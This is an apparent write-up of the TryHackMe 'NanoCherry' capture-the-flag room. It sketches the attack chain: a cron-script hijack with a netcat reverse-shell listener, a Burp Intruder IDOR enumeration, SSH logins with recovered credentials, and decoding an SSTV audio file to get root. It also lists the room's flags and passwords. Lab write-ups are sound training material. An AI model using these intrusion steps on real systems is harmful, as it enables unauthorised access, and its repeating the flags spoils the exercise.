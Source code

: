 > [!NOTE] Backdoor Creds
> User: notsus
> Pass:dontbeascriptkiddie
### Enumeration
```bash
Base32: 
chad-cherry: MNUGCZBAMNUGK4TSPEFAU===
molly-milk: NVXWY3DZFVWWS3DLBIFA====
bob-boba: MJXWELLCN5RGC===
sam-sprinkles: ONQW2LLTOBZGS3TLNRSXG===
```

#### Bob: chad3
Has a cron called `coinflip.sh`
Also writable `etc/hosts`
```bash
add entry for attack box
create rev shell on attack box in home/bob-boba/coinflip.sh

nc -lvnp 9001
```
`7h3fu7ur3`


#### Molly: Chad1
`nano.cherryontop.thm/users.db`
sqlitebrowser users.db
```python
puppet:master
```
Molly's Dashboard Flag: `THM{BL4CK_M4I1}`
chads-key1.txt: `n4n0ch3rry`


#### Sam: Chad2
IDOR user and sequence
Burp Intruder > ClusterBomb > `GET /content.php?facts=§4§&user=§I52WK43U§ HTTP/1.1`
Payload1 (facts)= 1-99
Payload2 (user)= Sam Sprinkle {base32}
`request 43`

```bash

ssh sam-sprinkles:SammyInMiami43
```
chads-key2.txt
`w1llb3`

#### Full flag

Combine flags for pass
`n4n0ch3rryw1llb37h3fu7ur3`
```bash
ssh chad-cherry@cherryontop.thm

chad-cherry@cherryontop.thm's password: n4n0ch3rryw1llb37h3fu7ur3

┌──(sstephens㉿kali-ppt)-[~/Documents/tryhackme/nanocherry]
└─$ ssh chad-cherry@cherryontop.thm  
chad-cherry@cherryontop.thm's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-102-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sat Apr  8 10:44:17 2023 from 10.0.2.16
chad-cherry@nanocherryctf:~$ ls
Hello.txt  chad-flag.txt  rootPassword.wav
chad-cherry@nanocherryctf:~$ cat chad-flag.txt 
THM{P4SS3S_C0LL3CT3D}

```

#### Root
Pull the rootPassword.wav to attack box using `python -m http.server 9005`

It is a tv signal obfuscation - Need a new tool
```
git clone https://github.com/colaclanth/sstv 

cd sstv
python setup.py install
sstv -d rootPassword.wav -o results.jpg

open results.jpg in files
password to root

su root
```

**THM{YOU_NEVER_WERE_A_SCRIPT_KIDDIE} **



| Writeup Help       | Link                                                                      |
| ------------------ | ------------------------------------------------------------------------- |
| Sysrat (Root)      | https://thesysrat.com/blog/?p=840                                         |
| Kumarjit           | https://medium.com/@kumarjitdron69/nanocherryctf-writeup-thm-253d4389a68d |
| Burp(Samsprinkles) | https://squeakss.gitbook.io/ctfs/tryhackme/2024/nanocherryctf             |
